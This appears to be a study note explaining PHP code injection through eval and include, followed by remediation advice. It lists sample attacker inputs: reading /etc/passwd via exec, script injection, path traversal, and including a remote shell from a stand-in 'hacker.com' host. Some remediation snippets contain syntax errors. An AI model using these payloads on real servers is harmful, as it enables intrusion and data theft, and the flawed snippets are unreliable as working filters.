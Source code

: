 # PHP Code Injection

- Remotely execute arbitrary PHP code
- Similar to remote system execution, but affects PHP instead of operating system commands
- Most common when using `eval` which executes a string as if it were PHP. It is powerful, but dangerous
- Remote file inclusion: `include` and `require`
- Example:
  - `eval($php_code)`
  - `eval("approve_comment(3911)");`
  - Hacker may run:
    - `eval("phpinfo()");`
    - `eval("echo exec('cat /etc/passwd')");`
    - `eval("echo 'hello'; ?><script>alert('Gotcha!');</script><?php ");`

  - `include($template)`
  - `include("templates/report.php");`
  - Hacker may run:
    - `include("../../private/admin_functions.php");`
    - `include("https://hacker.com/webserver_hack.php")` (Remote code execution)
    - `include("C:\\ftp\\upload\\webserver_hack.php");`  (Local code execution)

## Remediation / Solutions

- Avoid using `eval` It is rarely necessary and code using it can usually be rewritten
- Avoid using dynamic data with `eval`, `include`, `require`
- PHP Configuration: `disable_functions` Disable functions that are insecure or not needed
  - Use an allow list with dynamic data:

```php
$valid_templates = ['report.php', 'export.php', 'summary.php');
if(!in_array($template, $valid_templates)) {
    die "Invalid template";`
}
```

- Use an allow or deny list to filter out characters with special meaning to PHP:

```php
// preg_replace(regex, new_value, string)
$x = preg_replace("/[^A-Za-z0-9_]/", "", $string);

// str_replace(search, replace, string)
$invalid_chars = ['/', '\', '.', ';'];
$x = str_replace($invalid_chars, "", $string);
```